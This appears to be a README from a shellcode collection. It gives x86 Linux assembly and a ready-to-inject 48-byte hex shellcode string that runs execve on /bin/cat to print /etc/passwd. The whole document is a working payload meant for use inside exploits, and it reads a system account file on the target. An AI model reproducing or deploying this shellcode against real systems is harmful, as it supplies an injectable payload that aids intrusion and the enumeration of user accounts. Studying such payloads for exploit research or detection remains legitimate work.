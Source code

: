 Cat /etc/passwd
====

# x86 version

<pre>
xor    eax,eax
push   eax
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   eax
push   0x64777373
push   0x61702f63
push   0x74652f2f
mov    ecx,esp
push   eax
push   ecx
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    eax,0xb
int    0x80
</pre>

Read the asm file for the commented version

Shellcode

<pre>
"\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe1\x50\x51\x53\x89\xe1\x50\x89\xe2\xb8\x0b\x00\x00\x00\xcd\x80"
</pre>

Length : 48 bytes
